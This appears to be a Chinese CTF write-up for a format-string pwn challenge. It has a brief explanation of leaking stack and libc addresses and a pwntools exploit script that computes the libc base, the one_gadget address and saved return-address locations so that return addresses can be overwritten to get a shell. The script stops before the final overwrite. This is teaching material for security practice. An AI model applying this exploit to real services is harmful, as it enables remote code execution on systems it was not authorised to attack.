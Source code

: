 本题是一个保护全开的无限循环的格式化字符串漏洞题，可以无限次的泄露地址。所以依次泄露出**main函数返回地址**、**rbp的值**以及**logging函数返回地址**，计算出**libc基址**、**程序基地址**、**保存main以及logging函数返回地址的栈地址**，再利用格式化字符串覆盖值的功能先将main函数的返回地址覆盖成**one\_gadget地址**，然后再将logging函数的返回地址覆盖成main函数的返回地址使之跳出循环，就能获取shell了。这里不能直接覆盖logging函数的返回地址为one\_gadget,因为libc的地址与程序地址差距太大需要覆盖多次，而覆盖一次logging函数就会导致不能再利用格式化字符串漏洞。

##### EXP：

```python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'

#p = process("./log1")
#gdb.attach(p,"b *$rebase(0x9cd)")

def leak(payload):
    p.recvuntil("RUSH B~\n")
    p.send(payload.ljust(32,'a'))
    leakaddr = int(p.recvuntil("aaaaaaaaaaaaaaaaaaaaaaa")[9:-23],16)
    return leakaddr

def cover(num, save_ret, step): #写入的数字、栈保存返回地址的位置、覆盖的字节数
    print("need print num:" + hex(num))
    a_num = 16 -(6 + (4 - step) + len(str(num)))
    p.recvuntil("RUSH B~\n")
    if step == 1:
        p.send(('%'+ str(num) + 'c%20$hhn' + "a" * a_num + p64(save_ret)).ljust(32,'a'))
    elif step == 2:
        p.send(('%'+ str(num) + 'c%20$hn' + "a" * a_num + p64(save_ret)).ljust(32,'a'))
    log.success('set ret success!')

#leak libc func ->libc_base->one_gadget
main_ret = leak('AAAA%27$p')
libc_main_addr = main_ret - 240
print("libc_main:" + hex(libc_main_addr))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = libc_main_addr - libc.symbols['__libc_start_main']
log.success("libc_base:" + hex(libc_base))

'''
sys_addr = libc_base + libc.symbols["system"]
binsh_addr = libc_base + libc.search("/bin/sh").next()
log.success('sys_addr:' + hex(sys_addr))
log.success('binsh_addr:' + hex(binsh_addr))
'''

one_gadget = 0xf1247
one_addr = libc_base + one_gadget
log.success('one_addr:' + hex(one_addr))

#leak rbp(stack_addr) -> save_ret_addr
rbp = leak('AAAA%16$p')
save_logging_ret = rbp  - 0x48
save_main_ret = rbp + 0x8
log.success('save_logging_ret:' + hex(save_logging_ret))
log.success('save_main_ret:' + hex(save_main_ret))

#leak ret_addr -> calculate num 
logging_ret = leak('AAAA%17$p')
code_base = logging_ret & 0xfffffffff000
leave_addr = 0x9E7 + code_base
log.success("logging_ret:" + hex(logging_ret))
log.success("leave_addr" + hex(leave_addr))
```